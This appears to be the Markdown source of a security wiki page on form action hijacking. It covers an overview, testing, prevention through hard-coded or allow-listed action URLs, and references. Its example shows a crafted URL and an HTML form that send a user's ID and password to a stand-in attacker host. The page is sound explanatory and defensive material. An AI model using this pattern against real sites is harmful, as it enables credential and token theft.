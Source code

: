 ```yaml
---

layout: col-sidebar
title: Form action hijacking
author: Robert Gilbert (amroot)
contributors: 
permalink: /attacks/Form_action_hijacking
tags: attack, Form action hijacking
auto-migrated: 1

---
```


{% include writers.html %}

## Overview

Form action hijacking allows an attacker to specify the action URL of a
form via a parameter. An attacker can construct a URL that will modify
the action URL of a form to point to the attacker's server. Form content
including CSRF tokens, user entered parameter values, and any other of
the forms content will be delivered to the attacker via the hijacked
action URL.

## How to Test for Form Action Hijacking Vulnerabilities

Check parameter values passed to the form action. See example below.

## How to Prevent Form Action Hijacking Vulnerabilities

Hard-code the form action URL or use an allowed list of permitted URLs.

## Examples

The following URL will generate the a form and set the "url" parameter
as the from action URL. When the form is submitted, the ID and password
will be sent to the attacker's site.

URL:

`https://vulnerablehost.com/?url=https://attackersite.com`

Source:

```html
<form name="form1" id="form1" method="post" action="https://attackersite.com">
    <input type="text" name="id" value="user name">
    <input type="password" name="pass" value="password">
    <input type="submit" name="submit" value="Submit">
</form>
```

## References

- [Common Weakness Enumeration - CWE-20: Improper InputValidation](https://cwe.mitre.org/data/definitions/20.html)
- [PortSwigger: Form action hijacking(reflected)](https://portswigger.net/knowledgebase/issues/details/00501500_formactionhijackingreflected)
- [PortSwigger: Form action hijacking(stored)](https://portswigger.net/knowledgebase/issues/details/00501501_formactionhijackingstored)
